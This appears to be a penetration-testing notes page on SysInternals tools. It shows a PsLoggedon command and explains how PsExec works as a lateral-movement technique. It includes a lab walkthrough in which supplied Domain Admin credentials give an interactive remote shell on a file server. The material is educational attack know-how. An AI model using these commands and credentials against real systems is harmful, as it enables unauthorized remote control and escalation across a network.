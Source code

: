 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SysInternals

{% tabs %}
{% tab title="Logged-in Users" %}
```powershell
.\PsLoggedon.exe \\web01
```
{% endtab %}

{% tab title="PsExec" %}
**PsExec** is a SysInternals tool for remote process execution over Windows systems, often used for lateral movement by attackers. It requires:

1. Admin privileges on the taget machine
2. An accessible `ADMIN$` share
3. Enabled File and Printer Sharing.&#x20;

> _The last two requisites are met by default on modern Windows environments._ _However, PsExec is not installed by default on Windows._

Behind the scenes PsExec's workflow is as follows:

1. Writes `psexesvc.exe` to the remote machine’s `C:\Windows` directory.
2. Creates a temporary service (`psexesvc`) to execute commands.
3. Runs the specified command as a child process of `psexesvc.exe`.

> _PsExec enables lateral movement and interactive remote control, assuming administrative access, without triggering outbound connections from the target._

In the following scenario, `offsec` is local `administrator` on `CLIENT74`, getting an interactive shell as `jen` who is a `Domain Admin`.

```powershell
> .\PsExec64.exe -i \\FILES04 -u corp\jen -p Nexus123! cmd

Microsoft Windows [Version 10.0.20348.169]
C:\Windows\system32>hostname
FILES04

C:\Windows\system32>whoami
corp\jen
```
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="Documentation" %}
{% embed url="https://learn.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite" %}
{% endtab %}
{% endtabs %}
